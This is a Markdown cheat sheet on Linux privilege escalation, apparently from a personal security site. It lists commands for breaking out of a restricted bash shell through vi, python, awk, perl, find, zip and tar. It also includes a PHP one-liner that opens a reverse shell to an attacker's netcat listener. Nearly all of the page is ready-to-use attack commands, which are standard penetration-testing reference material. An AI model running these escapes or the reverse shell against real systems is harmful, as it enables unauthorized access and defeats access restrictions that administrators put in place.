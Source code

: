 # Linux PrivEsc CheatSheet
[Home](../index.md) | [CheatSheets](../cheatsheets.md) | [About](../about.md)

## Restricted Bash Shell Breakout:
                                                                	|
| Command 	| Notes 	|
|---	|---	|
| $SHELL 	| Determine if we are in an rbash shell (/bin/rbash) 	|
| ssh user@ip -t "bash --noprofile" 	| Bypass rbash if we can use SSH along with a known username and password 	|
| vi<br>:set shell=/bin/bash<br>:shell 	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br> 	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' 	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell. 	|
| awk 'BEGIN {system("/bin/bash")}' 	| Escape rbash using AWK 	|
| perl -e 'system("/bin/bash");' 	| Use PERL to escape rbash and spawn a bash shell 	|
| find / -name test -exec /bin/sh or /bin/bash \; 	| Use the find command to execute the /bin/bash binary 	|
| cp /bin/bash . 	| Copy the /bin/bash binary to your current directory, this only works if / is allowed. 	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash" 	| Use the zip command to spawn a bash shell, create a zip file first using touch.  	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash 	| Use the tar command to execute the bash binary upon archive creation. 	|
